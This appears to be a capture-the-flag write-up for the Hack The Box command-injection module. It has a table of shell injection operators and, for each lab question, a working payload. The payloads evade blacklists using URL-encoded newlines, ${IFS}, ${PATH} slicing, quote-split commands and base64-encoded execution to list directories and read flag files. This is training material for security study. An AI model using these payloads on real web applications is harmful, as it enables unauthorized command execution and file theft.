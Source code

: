 # [HTB] Command Injections
## Command Injection Methods
## To inject an additional command to the intended one, we may use any of the following operators:

##  Injection Operator	Injection Character	URL-Encoded Character	Executed Command
```Semicolon	;	%3b	Both```

```New Line	\n	%0a	Both```

```Background	&	%26	Both (second output generally shown first)```

```Pipe	|	%7c	Both (only second output is shown)```

```AND	&&	%26%26	Both (only if first succeeds)```

```OR	||	%7c%7c	Second (only if first fails)```

```Sub-Shell	``	%60%60	Both (Linux-only)```

```Sub-Shell	$()	%24%28%29	Both (Linux-only)```

## Other Injection Operators

>**Q. Try using the remaining three injection operators (new-line, &, |), and see how each works and how the output differs. Which of them only shows the output of the injected command?**

```sh
ip=127.0.0.1|ls
```

## Identifying Filters

>**Q. Try all other injection operators to see if any of them is not blacklisted. Which of (new-line, &, |) is not blacklisted by the web application?**

```sh
ip=127.0.0.1%0als
```

## Bypassing Space Filters

>**Q. Use what you learned in this section to execute the command 'ls -la'. What is the size of the 'index.php' file?**

```sh
ip=127.0.0.1%0a{ls,-la}
```

## Bypassing Other Blacklisted Characters

>**Q. Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?**

```sh
ip=127.0.0.1%0a${IFS}ls%09${PATH:0:1}home
```

## Bypassing Blacklisted Commands

>**Q. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.**


```sh
ip=127.0.0.1%0a${IFS}c"a"t%09${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt
```

## Advanced Command Obfuscation

>**Q. Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1**

```sh
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
```

```sh
ip=127.0.0.1%0abas$@h<<<$(ba$@se6$@4${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Skills Assessment

>**Q. What is the content of '/flag.txt'?**

```sh
/index.php?to=&from=51459716.txt%09${PATH}&finish=1&move=1
/index.php?to=&from=51459716.txt%26l's'${IFS}%09${PATH:0:1}&finish=1&move=1
/index.php?to=&from=51459716.txt%26c"a"t${IFS}%09${PATH:0:1}flag.txt&finish=1&move=1
```
